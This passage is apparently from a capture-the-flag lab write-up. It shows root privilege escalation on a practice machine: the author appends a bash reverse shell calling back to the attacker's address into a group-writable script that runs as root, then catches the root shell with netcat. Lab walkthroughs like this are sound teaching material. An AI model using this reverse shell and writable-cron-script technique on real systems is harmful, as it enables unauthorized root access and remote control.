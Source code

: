 And as you can see, there's a strange binary being executed as root (`UID=0`) with some cron job or something like that

Let's see what's up with it...


```bash
ollie@hackerdog:/tmp$ ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 180 Apr  9 12:20 /usr/bin/feedme
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
```

Yeah, it is weird!

Seems like a binary `owned by root`, but the with the group of `ollie` and we have read and write permissions!

Let's add an exploit to it, so we can have a `reverse shell connection` as `root`!

```bash
ollie@hackerdog:~$ vim /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.9.0.244/1338 0>&1
~
"/usr/bin/feedme" 3L, 81C written
```

```bash
ollie@hackerdog:~$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.9.0.244/1338 0>&1
```
Let's set up the listener and wait for the connection!

```bash
└──╼ $nc -nlvp 1338
listening on [any] 1338 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 51578
bash: cannot set terminal process group (4090): Inappropriate ioctl for device
bash: no job control in this shell
root@hackerdog:~# id; whoami; hostname; cat /root/root.txt
id; whoami; hostname; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
root
hackerdog
THM{[REDACTED]}
```

31337 H4X0R5 We pwned the machine!!!

That's all from my side, hope you find this helpful!